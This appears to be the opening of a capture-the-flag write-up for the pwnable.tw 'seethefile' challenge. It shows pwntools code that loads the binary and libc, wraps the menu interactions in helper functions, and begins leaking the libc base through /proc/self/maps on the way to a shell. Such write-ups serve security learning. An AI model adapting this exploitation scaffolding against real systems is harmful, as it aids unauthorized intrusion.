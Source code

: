 To start off, we need to load the binary and the corresponding libc:

```python
from pwn import *

context.binary = './seethefile'
context.terminal = '/bin/sh'

elf = ELF('./seethefile')
#libc = ELF('./libc_32.so.6')                     # Remote libc
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')    # Local libc

r = process('./seethefile')
gdb.attach(r)
#r = remote('chall.pwnable.tw', 10200)
```

I also chose to define some helper functions to abstract communications with the binary:

```python
def openfile(path):
        r.recvuntil('choice :')
        r.sendline("1")
        r.recvuntil("see :")
        r.sendline(path)

def readfile():
        r.recvuntil('choice :')
        r.sendline("2")

def writefile():
        r.recvuntil('choice :')
        r.sendline("3")
        return r.recvuntil('---------------MENU---------------')[:-len('---------------MENU---------------')]

def closefile():
        r.recvuntil('choice :')
        r.sendline("4")

def exit(name):
        r.recvuntil('choice :')
        r.sendline("5")
        r.recvuntil('name :')
        r.sendline(name)
```

## Leaking libc base

If we want to get a shell, we need to know the address of `system` in memory. We can use the psuedo-file `/proc/self/maps`
 which contains a list of loaded memory regions of the reading process. On the remote service, we need to call `readfile`
  twice because libc's entry appears in the second set of 400 characters:
